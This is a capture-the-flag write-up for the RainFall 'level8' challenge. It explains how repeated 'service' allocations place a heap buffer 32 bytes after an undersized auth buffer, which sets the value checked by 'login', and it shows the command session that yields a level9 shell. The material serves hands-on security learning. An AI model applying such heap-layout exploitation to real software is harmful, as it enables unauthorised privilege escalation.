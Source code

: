 # level8

This level introduces heap exploitation through memory layout manipulation.

There are two global variables:
- `auth`: a pointer to an authentication structure
- `service`: a string pointer

The program implements a simple command line interface in its `main` function that recognizes 4 commands:
- `auth `: allocates a small buffer and copies the provided string into it
- `reset`: frees the auth buffer
- `service`: duplicates its argument into a new buffer
- `login`: spawns a shell if a specific value in the auth structure is non-zero

The interesting part is in the way memory is handled. Looking at the disassembly, we can see that `auth` only gets allocated 4 bytes with `malloc(4)`, even though it's meant to hold a 32-byte string and an integer. The string copy is protected by a length check (`strlen <= 30`), so we can't overflow it directly.

However, since `service` uses `strdup` to allocate new buffers, and malloc tends to allocate contiguous memory blocks, we can manipulate the heap layout to get a `service` buffer to land exactly 32 bytes (0x20) after `auth`. When this happens, the service string data will overwrite what would be the integer field in the auth structure, allowing us to pass the login check.

Here's how to exploit it:
```
level8@RainFall:~$ ./level8 
(nil), (nil)          # Both pointers start as NULL
auth                  # Allocate auth buffer at 0x804a008
0x804a008, (nil)
service               # First service allocation at 0x804a018
0x804a008, 0x804a018
service               # Second service lands at 0x804a028 (auth + 0x20)
0x804a008, 0x804a028 # This overwrites auth->n with non-zero data
login                 # Success!
$ whoami
level9
```

We actually found this solution by just trying stuff, after having noticed that the Ghidra disassembly had this line:
```c
if (*(int *)(auth + 0x20) == 0) {
```

In the end, because the assembly had a lot of inlined calls, it took way longer to understand what the code was doing and disassemble it than it took to just break it lol